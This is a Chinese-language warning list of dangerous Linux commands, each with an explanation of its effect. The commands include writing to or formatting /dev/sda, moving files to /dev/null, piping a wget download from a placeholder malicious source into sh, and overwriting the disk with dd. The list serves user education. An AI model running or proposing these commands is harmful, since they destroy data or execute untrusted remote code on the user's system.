 # > /dev/sda

这个命令会将某个‘命令‘的输出写到块设备/dev/sda中。

该操作会将在块设备中的所有数据块替换为命令写入的原始数据，从而导致整个块设备的数据丢失。

# mv 文件夹 /dev/null

这个命令会移动某个‘文件夹‘到/dev/null。

在Linux中 /dev/null 或 null 设备是一个特殊的文件，所有写入它的数据都会被清除，然后返回写操作成功。

当然，要说明的是这个命令并不能阻止数据恢复软件——所以，真正的彻底毁灭，需要采用专用的软件或者手法来完成。

```
mv /home/root/* /dev/null
```

# wget http://malicious_source -O- | sh

该命令会从一个（也许是）恶意源下载一个脚本并执行。

wget命令会下载这个脚本，而sh会（无条件的）执行下载下来的脚本。

注意: 你应该时刻注意你下载包或脚本的源。只能使用那些从可信任的源中下载脚本/程序。

# mkfs.ext3 /dev/sda

上列命令会格式化块设备‘sda’，在执行这个命令后你的块设备(硬盘驱动器)会被格式化，直接让你的系统达到不可恢复的阶段。

通常我们不会直接使用/dev/sda这样的设备，除非是作为raw设备使用。

一般都需要将sda分成类似sda1、sda2这样的分区后才使用。当然，无论你使用sda还是sda1，这样对块设备或分区进行mkfs都是毁灭性的，上面的数据都会被蒸发了。

# > file

这个命令常用来清空文件内容或记录命令输出。

不过请在执行前，确认输出的文件是空的或者还不存在，否则原来的文件可真是恢复不了了——连数据恢复软件都未必能帮助你了。

你可能真正想用的是“>>”，即累加新的输出到文件，而不是刷新那个文件。

如果用上列执行时输入错误或无知的输入类似 “> xt.conf”　的命令会覆盖配置文件或其他任何的系统配置文件。

# ^foo^bar

这个命令用来编辑先前运行的命令而无需重打整个命令。

用foobar命令时如果你没有彻底检查改变原始命令的风险，这可能导致真正的麻烦。

# dd if=/dev/random of=/dev/sda
